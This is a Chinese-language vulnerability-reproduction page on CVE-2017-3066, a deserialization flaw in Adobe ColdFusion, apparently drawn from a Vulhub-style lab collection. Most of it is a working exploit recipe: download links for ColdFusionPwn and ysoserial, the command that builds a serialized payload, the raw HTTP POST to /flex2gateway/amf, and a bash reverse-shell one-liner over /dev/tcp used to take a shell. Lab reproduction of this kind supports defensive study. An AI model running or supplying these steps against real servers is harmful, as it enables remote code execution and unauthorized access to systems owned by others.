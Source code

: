```yaml
---
title: （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞
id: zhfly2806
---
```


# （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。
[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

> ## Usage
> 
> ```
> java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile] 
> ```

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)
【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser 
```

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853 `[…poc…]` 
```

![image](../img/68b10682ce9913b874ca871a4bd0fb7b.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![image](../img/3ef0eb4513a853e0c2d867f392ed278b.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![image](../img/07535ef03fe57b7689af3d0a04398d60.png)

进入容器中，发现`/tmp/success`已成功创建：

![image](../img/a2fe6db61dd13cf1681615fb0cde6b83.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![image](../img/36bef43c7be4531bf8ad9b225bfb987e.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

```
bash -i >& /dev/tcp/ip/port 0>&1 
```

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/